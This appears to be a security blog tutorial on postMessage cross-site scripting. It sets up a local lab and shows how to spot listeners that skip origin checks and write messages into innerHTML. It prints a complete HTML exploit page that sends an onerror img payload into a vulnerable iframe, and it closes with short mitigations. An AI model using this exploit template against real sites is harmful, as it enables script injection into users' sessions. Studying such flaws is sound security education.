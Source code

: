# INTRODUCTION

Due to the `same-origin policy`, scripts from different pages cannot interact with each other. They are only permitted to access each other if the pages they originate from share the same protocol, port number, and host. This policy is in place to prevent websites from attacking each other. Without the same-origin policy, visiting a malicious website could potentially allow it to access your emails from Gmail, private messages from Facebook, and so on.

However, this policy introduces `restrictions` that can limit functionality in web applications requiring `cross-origin communication`. For instance, consider a web application that embeds a third-party payment gateway within an iframe. The main page needs to communicate with the payment gateway to process transactions. Due to the same-origin policy, the main page cannot directly interact with the iframe's content because they originate from different domains.

To address these challenges, `window.postMessage()` is introduced. It is a method that safely enables `cross-origin communication` between Window objects. For example, it facilitates communication between a page and a pop-up it spawned, or between a page and an iframe embedded within it. This is achieved by using the postMessage method to send data from the sender's side and setting up an `event listener` to receive the data on the receiver's side.

For instance, to send a message to a third-party iframe embedded within a webpage, you can utilize the postMessage method. This method specifies both the message content to be sent and the target origin as follows:

```javascript

thirdPartyIframe.contentWindow.postMessage(message, 'https://third-party.com');

```

Here, it accesses the window object of the embedded iframe, then invokes postMessage method to send the message to the iframe's window, ensuring it is received only by iframes loaded from the specified targetOrigin ('https://third-party.com').

On the receiving side, the script must implement an event listener using `addEventListener` to receive the message sent from the sender:


```javascript

window.addEventListener('message', function(event) {
        const response = event.data;
});
```

This allows exchange of data between different parts of a web application while adhering to browser security policies. However, `insecure` use of postMessage could lead to vulnerabilities like `XSS (Cross-Site Scripting)`, as demonstrated below.

# LAB SETUP

For this demo, we set up a local web server running at 127.0.0.1, and we added host file entries for three different origins:

- mainweb.com: This is the main web page that embeds the third-party web page and sends messages to thirdparty.com using postMessage.
- thirdparty.com: This acts as the third-party site, receiving and processing messages from any domain.
- exploit.com: This is the attacker domain where the malicious script is hosted to exploit the XSS vulnerability in thirdparty.com.

# IDENTIFYING POSTMESSAGE XSS

To identify postMessage XSS, we first need to determine : 

- Whether the target application utilizes `web messaging`.
- Whether the `origin` of the sender is `validated` on the receiving event listener.
- Whether the message event is handled using `functions` or `attributes` that can lead to an `XSS`. 

Let's start with the first point. The most effective method to identify the use of postMessage in a web application is by utilizing the `global search option` in the developer tools. This allows us to search for specific keywords in the JavaScript files, such as `postMessage()`, `addEventListener`, and others.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool.png)

As we can see, by using developer tool, we're able to identify the usage of postMessage in this web application. Let's examine the file.


![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-mainweb.png)

This is straightforward: it makes use of postMessage to send a message to the webpage embedded within it, which is `thirdparty.com/receiver.html`. With this understanding, let's now analyze the event listener responsible for processing the message. We can employ the same method to search for the `addEventListener` keyword.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool1.png)

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-thirdparty.png)

By analysing the event listener, we can see `it doesn't validate the origin of the message`, this means it can receive and process a message originating from any domain. This is useful for attacker as his malicious script needs to be hosted in different domain, so without origin validation, attacker can have his script hosted in malicious website and get his payload handled and processed by the event listener of the vulnerable website.

Lastly, we need to examine the functions or attributes used to handle the message event. To do this, we first need to know the list of `functions` and `attributes` that could lead to XSS.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/listfunc1.png)

There is a possibility of XSS if any of the mentioned functions or attributes are used to handle a message event. In our case, `document.innerHTML` is used to display the message on the webpage, which can lead to XSS vulnerabilities if the message is not properly sanitized or validated.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-function.png)

Therefore, we can craft an XSS payload, host it on our malicious website, and trick a user into visiting our site. This will trigger our script, which will then send the payload to the vulnerable website, causing it to execute which will result in an XSS attack.

# EXPLOITING POSTMESSAGE XSS

Since we have identified the use of web messaging and the possibility of an XSS attack on the vulnerable application, we will attempt to exploit it by crafting a malicious payload and hosting it on our malicious domain, exploit.com. The payload will be written as follows:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PostMessage XSS Exploit</title>
    <script>
        function sendExploitMessage() {
            const targetWindow = document.getElementById('targetIframe').contentWindow;
            const maliciousMessage = '<img src=x onerror=alert("Exploited")>';
            targetWindow.postMessage(maliciousMessage, '*');
        }

        window.onload = function() {
            sendExploitMessage();
        }
    </script>
</head>
<body>
    <h1>PostMessage XSS Exploit</h1>
    <iframe id="targetIframe" src="http://thirdparty.com/receiver.html" width="600" height="400"></iframe>
</body>
</html>

```

The `sendExploitMessage()` function is designed to send the payload to the vulnerable website. The message contains our XSS payload. Whenever a victim visits our malicious site, the window.onload event will automatically call sendExploitMessage, which sends our payload to the vulnerable page at thirdparty.com/receiver.html. This will trigger the payload, resulting in an XSS attack.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/exploit.png)

Upon visiting the malicious site, our XSS payload is executed on the vulnerable endpoint within the thirdparty.com domain.

# Mitigations

- If the application does not require communication such as receiving messages from other websites, it is advised to not utilize the event listeners for the message events unnecessarily.
- Always verify the sender’s identity using the origin.
